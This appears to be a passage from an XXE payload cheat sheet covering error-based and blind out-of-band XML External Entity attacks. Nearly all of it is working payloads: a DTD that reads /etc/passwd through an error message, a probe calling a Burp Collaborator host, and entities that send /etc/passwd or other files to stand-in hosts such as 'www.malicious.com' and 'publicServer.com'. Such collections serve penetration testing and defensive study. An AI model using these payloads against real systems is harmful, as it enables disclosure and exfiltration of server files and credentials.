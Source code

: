 **Contents of ext.dtd**

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```



## Exploiting blind XXE to exfiltrate data out-of-band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Basic Blind XXE

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```


Send the content of `/etc/passwd` to "www.malicious.com", you may receive only the first line.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### XXE OOB Attack (Yunusov, 2013)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```
